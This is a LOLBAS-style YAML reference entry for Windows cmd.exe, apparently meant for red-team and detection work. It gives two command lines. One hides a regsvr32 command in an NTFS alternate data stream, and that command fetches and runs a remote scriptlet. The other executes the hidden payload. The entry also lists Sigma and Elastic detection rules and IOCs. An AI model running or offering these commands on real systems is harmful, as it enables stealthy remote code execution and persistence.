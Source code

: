 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: 'Ye Yint Min Thu Htut'
Created: 2019-06-26
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe - < fakefile.doc:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/688df3405afd778d63a2ea36a084344a2052848c/rules/windows/process_creation/process_creation_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - IOC: cmd.exe executing files from alternate data streams.
  - IOC: cmd.exe creating/modifying file contents in an alternate data stream.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
---
```

